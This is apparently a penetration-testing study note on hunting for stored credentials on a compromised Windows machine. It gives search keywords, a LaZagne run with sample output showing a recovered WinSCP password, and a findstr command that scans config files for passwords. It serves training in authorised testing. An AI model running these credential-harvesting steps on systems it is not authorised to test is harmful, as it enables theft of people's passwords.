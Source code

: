# Credential Hunting in Windows

Once we have access to a target Windows machine through the GUI or CLI we can look for credentials

With access to the GUI, it is worth attempting to use `Windows Search` to find files on the target using some keywords. Here are some keywords worth looking for:

| Passwords     | Passphrases  | Keys        |
| ------------- | ------------ | ----------- |
| Username      | User account | Creds       |
| Users         | Passkeys     | Passphrases |
| configuration | dbcredential | dbpassword  |
| pwd           | Login        | Credentials |

<figure><img src="../../../../.gitbook/assets/image (1459).png" alt=""><figcaption></figcaption></figure>

We can also use a tool called [Lazagne](https://github.com/AlessandroZ/LaZagne) to quickly discover credentials that web browsers or other installed applications may insecurely store.

Once Lazagne.exe is on the target, we can open command prompt or PowerShell, navigate to the directory the file was uploaded to, and execute it

```cmd-session
C:\Users\bob\Desktop> start lazagne.exe all
```

And the password would look something like this:

```cmd-session
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```

We can also use [findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) to search from patterns across many types of files. We can look for our own patterns by modifying this command:

```cmd-session
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```
